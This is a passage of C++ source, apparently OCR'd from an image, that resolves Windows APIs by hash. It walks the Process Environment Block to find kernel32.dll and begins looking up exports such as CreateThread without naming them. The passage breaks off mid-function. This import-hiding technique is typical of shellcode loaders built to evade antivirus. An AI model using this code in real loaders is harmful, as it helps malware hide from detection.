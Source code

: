 ```cpp

typedef PVOID(WINAPI *fnCreateThread)(
  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  SIZE_T                  dwStackSize,
  LPTHREAD_START_ROUTINE  lpStartAddress,
  LPVOID                  lpParameter,
  DWORD                   dwCreationFlags,
  LPDWORD                 lpThreadId
);

typedef PVOID(WINAPI *fnWaitForSingleObject)(
  HANDLE hHandle,
  DWORD  dwMilliseconds
);

DWORD calcMyHash(char* data) {
  DWORD hash = 0x35;
  for (int i = 0; i < strlen(data); i++) {
    hash += data[i] + (hash << 1);
  }
  return hash;
}

static DWORD calcMyHashBase(LDR_MODULE* mdll) {
  char name[64];
  size_t i = 0;

  while (mdll->dllname.Buffer[i] && i < sizeof(name) - 1) {
    name[i] = (char)mdll->dllname.Buffer[i];
    i++;
  }
  name[i] = 0;
  return calcMyHash((char *)CharLowerA(name));
}

static HMODULE getKernel32(DWORD myHash) {
  HMODULE kernel32;
  INT_PTR peb = __readgsqword(0x60);
  auto modList = 0x18;
  auto modListFlink = 0x18;
  auto kernelBaseAddr = 0x10;

  auto mdllist = *(INT_PTR*)(peb + modList);
  auto mlink = *(INT_PTR*)(mdllist + modListFlink);
  auto krnbase = *(INT_PTR*)(mlink + kernelBaseAddr);
  auto mdl = (LDR_MODULE*)mlink;
  do {
    mdl = (LDR_MODULE*)mdl->e[0].Flink;
    if (mdl->base != nullptr) {
      if (calcMyHashBase(mdl) == myHash) { // kernel32.dll hash
        break;
      }
    }
  } while (mlink != (INT_PTR)mdl);

  kernel32 = (HMODULE)mdl->base;
  return kernel32;
}

static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = (PIMAGE_NT_HEADERS)((LPBYTE)h + img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
```